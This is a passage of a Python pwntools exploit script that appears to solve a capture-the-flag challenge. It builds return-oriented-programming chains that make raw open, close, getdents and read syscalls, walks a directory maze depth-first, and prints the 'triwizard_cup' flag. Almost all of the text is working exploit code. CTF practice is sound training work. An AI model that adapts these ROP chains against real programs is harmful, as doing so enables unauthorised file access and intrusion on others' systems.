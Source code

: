 ```python
    io.s(path+b'\x00')


def sys_close(io, fd):
    rop = ROP(exe)
    rop.call(SYSCALL, [6, fd, 0, 0])
    rop.call(READ_CHAIN)
    sendpayload(io, rop.chain())


def read_dir(io, dir):
    rop = ROP(exe)
    for _ in range(MAX_CHILDREN):
        rop.call(SYSCALL, [89, dir, BUFF, 69420])
        rop.call(PRINT, [ENTRYNAME])
        rop.call(PRINT, [BREAKLINE])
    rop.call(READ_CHAIN)

    sendpayload(io, rop.chain())
    
    subdirs = [b'']
    for _ in range(MAX_CHILDREN):
        if (dir:=io.rl().strip()) != subdirs[-1]:
            subdirs.append(dir)
    return subdirs[3:] #skip '' '.' '..'


def read_flag(io, dir, flag_file):
    sys_open(io,dir, flag_file)

    rop = ROP(exe)
    rop.call(SYSCALL, [3, dir+1, BUFF, 200])
    rop.call(PRINT, [BUFF])
    rop.call(READ_CHAIN)

    sendpayload(io, rop.chain())
    log.critical(io.ru(b'}').decode())
    sys_exit(io, 69)


def DFS(io, parent=2, depth=0):
    if not hasattr(DFS, "counter"):
        DFS.counter, DFS.logger = 0 , log.progress(f'Walking through the maze... ')
    DFS.counter+=1 
    DFS.logger.status(f'Depth: {depth}, DFScount: {DFS.counter}')

    subdirs = read_dir(io, parent)

    if b'triwizard_cup' in subdirs:
        read_flag(io,parent, b'triwizard_cup')
    
    for subdir in subdirs:
        sys_open(io, parent, subdir)
        DFS(io, parent+1, depth+1)
        sys_close(io, parent+1)


def main():
    io = conn()

    sys_open(io, -100, b'entry')
    DFS(io)

```